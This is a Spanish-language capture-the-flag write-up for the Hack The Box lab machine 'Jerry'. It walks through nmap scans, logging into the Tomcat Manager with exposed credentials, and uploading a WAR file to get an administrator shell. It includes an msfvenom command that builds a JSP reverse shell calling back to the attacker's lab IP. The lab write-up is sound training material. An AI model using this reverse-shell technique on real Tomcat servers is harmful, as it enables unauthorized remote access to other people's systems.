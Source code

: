 ```yaml
---
title: "Hackthebox Jerry Writeup (OSCP Style)"
date: 2020-09-03 23:18:26 +/-0800
categories: [Hackthebox,Windows]
tags: [Tomcat,War]
image: /assets/img/Post/Jerry.jpg
---
```


Información de la máquina.

| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 30-Junio-2018 |
| IP: | 10.10.10.95 |
| Primera sangre de usuario: | [echthros](https://www.hackthebox.eu/home/users/profile/2846) |
| Primera sangre de system: | [echthros](https://www.hackthebox.eu/home/users/profile/2846) |
| Creador: |  [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570) |


# Reconocimiento.

Como siempre comenzaremos con un escaneo a los  `65535`  puertos de la máquina para poder encontrar cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts jerry.htb -Pn --min-rate 2000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 22:48 CDT
Nmap scan report for jerry.htb (10.10.10.95)
Host is up (0.22s latency).
Not shown: 65534 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 66.11 seconds
```
Una vez terminado el escaneo lanzare scripts básicos de enumeración para detectar el servicio y la versión que se ejecuta bajo este puerto.

```console
intrusionz3r0@kali:~$ nmap -sCV -p8080 -oN targeted jerry.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 22:51 CDT
Nmap scan report for jerry.htb (10.10.10.95)
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

El escaneo determino lo siguiente:

* Puerto 8080 con servicio `tomcat`.

Rápidamente abro mi navegador y me dirijo a la página web.

![](https://lh5.googleusercontent.com/2A-_HIKhrJk5sZOQ9lpppN0teH4yZN_TAFYcFKQfNo49eMx4vpmZ6gaRyt2SymbFkYIGuQ9S-wtyoV8-ztUoTaktvu4mAIUDjxj02im32NwDgFnHiF4MyzweCYUbKp2zqshgxnv9)

Nos encontramos con la página por defecto de `tomcat`.

# Enumeración.

Si nos vamos a **Manager APP** se nos mostrara un panel de login.

![](https://lh5.googleusercontent.com/xycEGh_Dak0Akl4XtB_WWpocdxyklfBo_SwIKaYb-sHNfoV2oZhUA1ozN8_EugyCht_M_UPh_SDKLJRhO3bfzGSNybASbZWy2gIoXEKz5HB7nR3Ib_iNQSU4GrRaftsukiGWF0Q-)

Si colocamos cualquier cosa como credenciales el servidor nos responderá con un código de estado 401.

![](https://lh6.googleusercontent.com/CiQ4hnFH0Zr614Dhh-aozRAVOJADEi0u5yBOaRYDnL-O0TXmCIoE8O1pn61jdX266py_sCjflSvd03ASoVj_mSuNEFyhifQZlPeI87Q61yE5U9fIamlWEM8tkeCRHRhz8PG_7pvz)

Esto nos revelara lo que parece ser unas credenciales de acceso.

Cuando pruebo las credenciales en el panel de login, me autentica correctamente y accedemos al portal.

![](https://lh5.googleusercontent.com/yYlrjNj3GCuhu4sh1d-lio7GB86kVv8laedHq7eX_ExVbFAMEqt-J7BeEUMngzNoyfji9fl7FuOpyHVngzXuwyE9wEy6ntoYVqtma49iejNMFXs_WKnzTQ3qUkpSevBUQmfIcVbQ)

# Explotación

Como atacantes necesitamos buscar vías de explotación, en este caso si continuamos bajando encontraremos un apartado donde nosotros podremos subir archivos `war` al servidor.

![](https://lh6.googleusercontent.com/9gmxiGRCaZS2LpWxTxHncEkeGgqiRiD0SQ9kbNfOzZJpioeJR_uB3jk7kIN9_xKnQl28p7hCUqPJ3boFim5x6ahq2xg7ME0INdzdvCCBNowmWaCkVpnZg_WgEYHIAA6-V9HsnPHi)

**¿Que es un archivo war?**
Un archivo WAR es un archivo JAR utilizado para distribuir una colección de JavaServer Pages, servlets, clases Java, archivos XML, bibliotecas de tags y páginas web estáticas que juntos constituyen una aplicación web.


Por lo tanto esta es nuestra via de explotación, lo que haremos será lo siguiente:

* Haremos uso de la herramienta  `msfvenom` para crear un reverse shell en formato war.
* Subiremos el archivo malicioso.
* Ejecutamos nuestro archivo.


Creamos el payload.
```console
intrusionz3r0@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f war > shell.war
```
Subimos el archivo al servidor.

![](https://lh3.googleusercontent.com/ktSiGSpiMBrkYkr3nQDky1MyVeFysAgWsmCScLEl19lh9LGrmBQ-kgm5Y2ITaYC9Oo_UshHCPZj6ALR_kZZqO_ur8SwX7Nu_QD4g0blBw7efWLeJ0RjFY_parJvGXHlGgCPU8Roq)


# Shell como Administrador.

Por último lo ejecutamos dirigiéndonos a [http://jerry.htb:8080/shell/](http://jerry.htb:8080/shell/).

![](https://lh3.googleusercontent.com/ZKQyJ4zYHWnqsZ3-wlxFPwFKhJLp7mhSJ-0Huf-dTtMT0ZX8j1Yids7Q3cQvZVhDow6CZ3wuO0645svGk4C0PTQ9_fen3Uon6tE6PQIMgiM3u83khvTkIhYMTIhyZsfLmwfHim2r)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
